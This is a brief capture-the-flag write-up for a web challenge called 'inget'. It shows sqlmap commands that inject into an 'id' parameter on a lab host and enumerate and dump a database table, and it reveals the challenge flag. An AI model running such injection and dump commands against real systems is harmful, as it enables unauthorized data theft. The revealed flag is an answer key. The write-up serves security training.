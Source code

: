 ## inget

打开场景 Please enter ID,and Try to bypass

---

get参数注入  “ID” 尝试sql注入

kali sqlmap
```
sqlmap -u http://61.147.171.105:61299/?id=1 --current-db
sqlmap -u http://61.147.171.105:61299/?id=1 -C cyber --tables
sqlmap -u http://61.147.171.105:61299/?id=1 -C cyber -T cyber --columns
sqlmap -u http://61.147.171.105:61299/?id=1 -C cyber -T cyber -C"pw,user,Id" --dump
```
```
user            | pw                                           | Id |
+-----------------+----------------------------------------------+----+
| congratulations | cyberpeace{80c0821857c5e0537860f2d138c1aee7} | 3  |
+-----------------+----------------------------------------------+----+
```
